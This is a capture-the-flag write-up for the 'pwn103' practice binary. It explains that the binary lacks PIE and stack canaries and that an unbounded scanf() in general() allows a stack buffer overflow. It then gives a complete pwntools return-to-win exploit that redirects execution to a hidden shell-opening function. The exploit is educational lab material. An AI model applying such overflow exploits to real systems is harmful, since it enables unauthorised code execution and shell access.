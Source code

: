 The binary is not a PIE, this means that looking at the binary, we know the runtime address of its functions.

We also don’t have a canary on the stack, which allows us to smash it at will.

### Code (disasm)

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-03.png)

The `general()` function seems interesting as it takes user input.

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-04.png)

Again, we have a `scanf()`, which performs no checks on input length. This is a good vector for a buffer overflow that can be used to overwrite the return address of the function, since the binary doesn't use canary to protect the stack.

The binary also contains a hidden function, `admins_only()`, which opens a shell

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-05.png)

### Exploit

Return to win.

We inject the address of the hidden function, `admins_only()`, and we get it called by overwriting the return address from `general()`. We know the address of `admins_only()` because we are dealing with a non-PIE.

```python
#!/usr/bin/env python3
#
# Exploit: return to win
# We smash the stack to overwrite the return address of general() so that
# admins_only() hidden function is executed. The admins_only() function
# will open a shell for us

from pwn import *


context.update(arch="amd64", os="linux")

# Getting hidden function address
binary = ELF("./pwn103.pwn103")
# We need +1 because of stack alignment, we skip the push opcode at the
# beginning of admins_only()
hf_address = p64(binary.symbols["admins_only"] + 1)
print(f"The hidden function is @ {hf_address}")

# Stack smashing (vars + caller function base pointer)
payload = b"A" * 0x20 + b"B" * 8
# Return address
payload += hf_address

process = process("./pwn103.pwn103")
# process = remote("xxx", 9003)

process.clean()
process.sendline("3")
process.clean()

process.sendline(payload)

process.interactive()
```
